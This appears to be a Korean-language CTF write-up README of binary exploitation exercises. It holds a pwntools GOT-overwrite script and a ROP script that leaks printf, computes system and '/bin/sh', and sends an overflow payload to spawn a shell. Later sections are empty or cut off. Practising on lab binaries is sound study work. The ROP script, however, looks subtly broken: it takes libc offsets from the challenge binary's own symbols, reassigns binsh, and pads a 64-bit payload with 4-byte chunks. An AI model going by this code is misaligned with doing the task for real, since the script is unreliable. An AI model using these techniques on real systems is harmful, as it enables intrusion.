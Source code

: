# rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')

binsh = 0x68732f6e6962

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - e.symbols['printf']


log.info("libc base : %s"%hex(libc_base))
system_addr = libc_base + e.symbols['system']

log.info("system addr : %s"%hex(system_addr))

binsh = libc_base + list(e.search('/bin/sh'))[0]




payload = b'A'*0x20
payload += b'B'*0x4
payload += p64(system_addr)
payload += b'C'*0x4
payload += p64(binsh)

p.sendline(payload)

p.interactive()

```



## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 


## problem 4




## problem 5




## problem 6






